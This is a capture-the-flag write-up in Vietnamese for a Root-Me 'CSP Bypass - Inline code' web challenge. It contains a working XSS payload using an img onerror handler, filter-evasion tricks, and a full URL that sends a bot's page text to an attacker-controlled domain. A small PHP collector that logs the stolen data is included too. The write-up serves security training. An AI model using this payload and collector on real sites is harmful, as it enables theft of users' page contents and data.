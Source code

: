 # CSP Bypass - Inline code

## Solution

Đọc liên kết pdf 'Google - CSP Is Dead, Long Live CSP' trong phần related resources và biết rằng `unsafe-inline` cho phép thực thi các inline script

Vì vậy, thử đặt một số payload XSS bên trong tham số `user`:

Bắt đầu bằng:

```
<script></script>
```

có vẻ như tác giả không cho phép.

Sử dụng thẻ `img` với event `onerror` `<img src="" onerror="alert(1)">` và nhận được XSS

Sau đó cần trích xuất flag, tài liệu cho biết chỉ có bot mới có thể thấy flag nghĩa là có một bot trong máy chủ có thể đọc nội dung của trang bao gồm flag, sau đó bằng cách truy cập trang `/report`, phải gửi form chứa XSS nhưng server lọc một số từ khóa như `http` nên có thể sử dụng `//` thay, và `+` bị escape thành '' nên không thể nối bằng `+` trong Javascript, chỉ sử dụng hàm `concat()`.

Trong payload XSS này, cần đọc nội dung trang nên đã gửi payload này: 

```
http://challenge01.root-me.org/web-client/ch8/page?user=<img src="" onerror="window.location.href='//mydomain.com/index.php?c='.concat(btoa(btoa(document.getElementsByTagName('body')[0].innerText)))">
```

Đầu tiên, đọc văn bản bên trong body sau đó mã hóa hai lần để tránh nhận được ký tự `+` bằng hàm `btoa()` để mã hóa base64 và có một domain nên chỉ cần thêm tệp PHP đọc tham số GET có tham số `c` và lưu vào tệp txt có tên `content.txt`m đó là code bên trong `index.php`

```
<?php
if(isset($_GET['c']))
       file_put_contents('content.txt', date('Y-m-d H:i')." : ".$_GET['c']." \n", FILE_APPEND);
?>
```

Sau khi submit, chỉ cần kiểm tra tệp `content.txt` trong domain (http://mydomain.com/content.txt) và nhận được một số văn bản ở định dạng base64 nên giải mã hai lần và nhận được phần văn bản bên trong chứa flag.
